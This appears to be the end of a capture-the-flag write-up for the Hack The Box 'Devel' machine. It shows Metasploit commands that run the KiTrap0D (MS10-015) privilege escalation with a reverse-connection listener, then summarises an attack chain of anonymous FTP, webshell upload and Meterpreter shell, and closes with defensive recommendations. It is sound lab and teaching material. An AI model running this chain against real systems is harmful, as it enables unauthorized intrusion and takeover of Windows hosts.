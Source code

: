 ![[exploit_kitrap0d.png]]

Select and configure **KiTrap0D**. Exectue the shell in background session:

```bash
use 0
set lhost 10.10.14.2
set lport 443
set session 1
exploit
```

![[GitHub Documentation/EASY/HTB_Devel_Writeup/screenshots/exploit_run.png]]

We escalate successfully to Administrator:

![[GitHub Documentation/EASY/HTB_Devel_Writeup/screenshots/root_user_flag.png]]

---
## 4. Post-Exploitation

Retrieve the flags:

- User flag from `C:\Users\babis\Desktop`
- Root flag from `C:\Users\Administrator\Desktop`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **FTP Anonymous Login** → Gained access to upload files into the webroot.  
2. **Webshell Upload** → Obtained RCE as `iis apppool\web`.  
3. **Metasploit Reverse Shell** → Established a stable Meterpreter session.  
4. **KiTrap0D Exploit (MS10-015)** → Escalated privileges to Administrator.  

---
## Defensive Recommendations

- Disable **anonymous FTP access** or restrict it outside the IIS webroot.  
- Regularly patch Windows hosts to mitigate known local privilege escalation vulnerabilities (MS10-015).  
- Apply least privilege principles to application pools and restrict write permissions.  
